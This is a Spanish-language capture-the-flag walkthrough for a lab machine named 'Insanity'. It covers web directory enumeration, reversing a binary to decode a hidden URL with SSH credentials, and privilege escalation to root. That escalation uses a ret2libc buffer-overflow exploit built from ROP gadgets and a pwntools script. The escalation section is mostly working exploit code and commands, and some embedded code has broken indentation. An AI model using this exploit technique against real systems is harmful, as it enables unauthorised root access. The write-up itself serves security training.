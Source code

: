 nmap: 22,80

![image](https://github.com/user-attachments/assets/9a5132f3-0a20-4689-8f07-2f6823477b83)

si entramos a la pagina es un apache como nombra en el nmap, entramos al código fuente y nos mostrara esto

![image](https://github.com/user-attachments/assets/5a899861-971f-45a2-beae-b6e4991f89c1)

lanzamos un gobuster 

     gobuster dir -u http://insanity.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt -t 100 -k

y obtenemos 

![image](https://github.com/user-attachments/assets/5ba202fc-7a78-4e33-81a2-bf844081ce3d)

entramamos y obtenemos

![image](https://github.com/user-attachments/assets/c86393b4-2728-4a69-8cdb-396aa439403e)

los descargamos y ejecutamos

![image](https://github.com/user-attachments/assets/4de4dd06-7a32-4ff1-a316-ea41755b6da0)

con secret obtenemos que es una clave incorrecta y con libcredenciales.so da segmentation fault, probando no obtenemos nada. así que vamos a utilizar ghidra para ver el contenido del código 

Lo importante que entendí del código
> Primero que hay un wget así que descarga un archivo
> g(): Define un arreglo de valores o sea local_4d8, local_4d4 y así. 
> usa b() para convertir estos valores en una cadena
> También  llama a "a()" para cada valor en un arreglo de enteros
>o sea vería así: b(long param_1, int param_2, long param_3)

así que basado en esto podemos decodificar con un código python

![image](https://github.com/user-attachments/assets/4cdd940e-c5a3-4c7c-9d40-189b4e6bfdf4)

con este código lo vamos a lanzar con python3

     def transform_value(value):
    special_cases = {
        0x1B: 0x3A,
        0x1C: 0x2F,
        0x1D: 0x2E,
        0x1E: 0x5F
    }
    
    if value in special_cases:
        return special_cases[value]
    elif 1 <= value <= 0x1A:
        return value + 0x60
    else:
        return 0x3F
        
        def convert_values_to_string(values):
    return "".join(chr(transform_value(value)) for value in values)
    
    values = [
    8, 20, 20, 16, 27, 28, 28, 9, 14, 19, 1, 14, 9, 20, 25, 29, 4, 12, 28, 21,
    12, 20, 18, 1, 30, 19, 5, 3, 18, 5, 20, 30, 6, 15, 12, 4, 5, 18, 11, 13, 1 ]
    result = convert_values_to_string(values)
    print("Resultado:", result)


y obtenemos esto

![image](https://github.com/user-attachments/assets/6e3e218e-779d-4a2d-b7ef-cf7153ea8469)

> http://insanity.dl/ultra_secret_folderkma

![image](https://github.com/user-attachments/assets/630ea875-f856-43a2-82ae-5ff2f9c65a4f)

tenemos las credenciales de SSH

![image](https://github.com/user-attachments/assets/e1930742-634c-4d90-b124-3e9f2a7d608c)

tenemos la conexión ahora vamos buscando y encontramos esto

![image](https://github.com/user-attachments/assets/05779abd-a6bd-4ee1-a6d4-44ae52efdfdc)

vamos a lanzar ahí mismo 

     gdb -q ./vuln

ahora colocamos los que nos dio el código

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 

![image](https://github.com/user-attachments/assets/e657490c-a3ce-4898-acaa-b445609772b4)

ahora en el gdb lanzamos una r y ahora colocamos el resultado

![image](https://github.com/user-attachments/assets/64bfae17-2c62-422d-9ba7-a3573f1160dd)

obtenemos este resultado

    0x0000000000401189 in vuln ()

ahora lanzamos en nuestra terminal

    python2 -c 'print("A"*136 + "BBBBBB")'

en el gdb lanzamos run y colocamos el nuevo resultado y obtenemos

    0x0000424242424242 in ?? ()

![image](https://github.com/user-attachments/assets/df1066f8-b470-47ab-8cf2-e830bf81c311)

entonces cambio porque en el primer "ataque" aparece la protección, si lanzamos un "info frame" mostrara si se ejecuta correctamente pero como se vio muestra la protección, ahora que lanzamos tomando en cuenta el "136" le sumamos las B o sea "136 + 6 B"
y podemos obtener el ultimo resultado. ahora quedaría encontrar la direccion de memoria que seria el "sh"

![[memoria.png]]

veremos si esta ahí y efectivamente esta 

![[memoria2.png]]

ahora seria buscar la dirección de memoria pero de system, con el comando 

    p system

y nos dará

![[system.png]]

encontré este comando que es para ver si se encuentra ahí
 
     ROPgadget --binary ./vuln

de muchas lineas que nos da, nos interesa una

     0x0000000000401016 : ret

así que obtenemos la dirección de ret, ahora buscamos la de pop rdi

     ROPgadget --binary ./vuln | grep "pop rdi"

y me dio

     0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
     0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
     0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret

la que buscábamos es la 

     0x000000000040116a 

ahora con todos los valores creamos un código python que contenga los valores

![[exploit.png]]


este es el código 

     from pwn import *
     binary_path = '/opt/vuln'
     binary = ELF(binary_path)
     p = process(binary_path)
     
     gadgets = {
    "pop_rdi_ret": 0x40116a,
    "ret": 0x401016         
    }
    addresses = {
    "bin_sh": 0x7ffff7f73031, 
    "system": 0x7ffff7e29490  
    }
    
    offset = 136                  
    payload = b"A" * offset        
    payload += p64(gadgets["pop_rdi_ret"])  
    payload += p64(addresses["bin_sh"])     
    payload += p64(gadgets["ret"])         
    payload += p64(addresses["system"])    
    
    def exploit():
    p.sendline(payload)
    p.interactive()
    
    if __name__ == "__main__":
    exploit()


ahora los pasamos a la maquina victima y lo ejecutamos

![[dockerlabs/dificil/Insanity/root.png]]

y somos root! 
